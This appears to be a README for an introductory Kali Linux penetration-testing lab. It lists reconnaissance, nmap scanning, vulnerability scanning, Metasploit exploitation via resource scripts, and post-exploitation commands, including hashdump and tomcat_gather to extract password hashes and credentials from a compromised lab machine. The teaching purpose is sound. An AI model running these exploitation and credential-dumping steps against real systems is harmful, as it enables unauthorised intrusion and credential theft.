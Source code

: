 # Ethical Hacking 101 with Kali Linux

## Module 01: Setting Up the environment

```
chmod +x provision.sh
./provision.sh
```

## Module 02: Information Gathering

### Tools for Passive Reconnaissance

### nslookup

```
nslookup microsoft.com
```

### netdiscover

```
netdiscover
```

### host
```
host microsoft.com
```

### dig

```
dig microsoft.com
dig MX microsoft.com
```

### whois

```
whois nmap.org
```

### exiftool

```
exiftool -h
```

### theharvester

```
cd theHarvester
python3 theHarvester.py -d microsoft.com -b bing -l 5 > result.txt
```

### maltego

```
maltego
```

### recon-ng

```
recon-ng
```


### Tools for Active Reconnaissance

### dirb

```
dirb http://$MS2/
```




### httrack

```
httrack http://$MS2/ -O /copyweb
```

### nmap

#### Ping Sweep Scan

```
nmap -sP $NETRANGE
```

#### TCP Full Scan

```
nmap -sT $MS2 -oA nmap-output
```

#### TCP Full Scan
```
nmap -sT $MS2 -oA nmap-output-fullscan
```

#### Steath Scan
```
nmap -sS $MS2 -oA nmap-output-steathscan
```

#### Version Scan
```
nmap -sV $MS2 -oA nmap-output-versionscan
```

#### Other Commands
```
nmap -F $MS2

nmap -sn $MS2

nmap -Pn $MS2
 
nmap -p 1-200 $MS2

echo $MS2 > nmap-input-file.txt
nmap -iL -sT

nmap --script discover,safe $MS2
```

### enum4linux

```
enum4linux $MS2 > enum4linux-output.txt
```

### cewl

```
cewl http://$MS2/dvwa -w words.txt
```

### Open Source Intelligence Sources
#### Netcraft https://www.netcraft.com/
#### Haveibeenpwned https://haveibeenpwned.com/
#### SHODAN https://www.shodan.io
#### Censys https://censys.io/

### Dimitry

```
dmitry -s microsoft.com
```

### Wafw00f

```
wafw00f http://$MS2
```


### Recon-ng
```
recong-ng
```

## Module 03: Vulnerability Assesment

### Nmap Vulnerability Scan

```
nmap --script vuln $MS2
```


### Skipfish

```
skipfish -o mutillidae http://$MS2/multillidae
```

## Module 04: Exploitation
Metasploit uses postgresql as detault database, remember to start the postgresql server

```
service postgresql start
```

Use automation scripts with metasploit
```
msfconsole -q -r exploits/exploit_01_vsftpd.rc
```

Export records from database to a XML file
```
msfconsole -q -x "db_export -f xml /root/msf_results.xml"
```

## Module 05: Post-Exploitation

You need to have an active **meterpreter** session, review exploit/exploit_04

```
msfconsole -q
``` 

Check active sessions

```
msf5 exploit(multi/misc/java_rmi_server) > sessions -l
```

**checkVM**: This will check if the compromise machine is a Virtual Machine or not

```
msf5 exploit(multi/misc/java_rmi_server) > use post/linux/gather/checkvm
msf5 post(linux/gather/checkvm) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/checkvm) > run
```

**hashdump**:

```
msf5 post(linux/gather/checkvm) > use post/linux/gather/hashdump 
msf5 post(linux/gather/hashdump) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/hashdump) > run
```

**tomcat_gather**:
```
msf5 post(linux/gather/hashdump) > use post/multi/gather/tomcat_gather 
msf5 post(multi/gather/tomcat_gather) > set SESSION 1
SESSION => 1
msf5 post(multi/gather/tomcat_gather) > run
```


## Module 06: Reporting

### Dradis

Execute the command and visit http://localhost:3000 with your browser
```
service dradis start
```